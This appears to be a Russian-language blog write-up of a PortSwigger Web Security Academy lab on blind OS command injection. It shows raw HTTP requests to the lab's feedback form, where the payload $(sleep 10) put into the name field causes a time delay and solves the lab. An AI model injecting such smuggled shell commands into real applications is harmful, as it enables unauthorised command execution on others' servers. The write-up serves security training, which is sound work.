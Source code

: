```yaml
---
title: "Blind OS command injection with time delays"
date: 2025-06-26
tags: [os_command_injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays"
classes: wide
---
```


Содержит уязвимость **Blind OS command injection**. Для решения нужно внедрить шелл и вызвать 10-ти секундную задержку ответа от сервера.

```
https://0ac5007f03b14177805be4a200920057.web-security-academy.net/
```

## Solution

Рекон — наше все. Пойду изучать страницу. Мой интерес вызвала форма для отзыва. Поковыряю ее:

```http
POST /feedback/submit HTTP/2
Host: 0ac5007f03b14177805be4a200920057.web-security-academy.net
Cookie: session=xpoqTmDMOzriSDsLRyYXUxX5xlpU1lvO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac5007f03b14177805be4a200920057.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0ac5007f03b14177805be4a200920057.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=gO442Yqa8SZUXZZM1ifSoONgSgGIh4az&name=name&email=mail%40mail&subject=subject&message=message+
```

Отзыв отправляется через данную форму. Попробую подставить разные значения в поля. Так же интересно, что в ответе мне вернулся пустой `json`:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2

{}
```

Итак, попробую подставить `sleep 10` в поля формы:

```http
POST /feedback/submit HTTP/2
Host: 0ac5007f03b14177805be4a200920057.web-security-academy.net
Cookie: session=xpoqTmDMOzriSDsLRyYXUxX5xlpU1lvO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac5007f03b14177805be4a200920057.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: https://0ac5007f03b14177805be4a200920057.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=gO442Yqa8SZUXZZM1ifSoONgSgGIh4az&name=$(sleep 10)&email=mail%40mail&subject=subject&message=message+body
```

И сразу попадание)

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_time_delays/1.png){: height="200" .align-center}

Лаба решена, получается...

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_time_delays/2.png){: height="200" .align-center}